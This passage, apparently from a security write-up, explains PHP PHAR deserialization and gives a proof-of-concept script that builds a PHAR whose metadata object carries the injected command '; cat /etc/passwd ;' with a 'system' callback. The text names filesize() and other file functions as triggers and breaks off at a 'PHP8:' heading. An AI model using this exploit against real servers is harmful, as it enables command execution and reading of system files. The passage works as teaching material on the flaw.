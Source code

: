 and move_uploaded_file, mime_content_type, readgzfile, md5_file, gzopen, gzfile, etc.

### POC 

If I use the previous context and create a PHAR file like:

```php
<?php

class User{
    public $name = "; cat /etc/passwd ;";
    public $age;
    public $func = "system";
}

$obj = new User();
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();

?>
```

You can use one of the functions mentioned above to trigger it — for example, filesize()

PHP8:

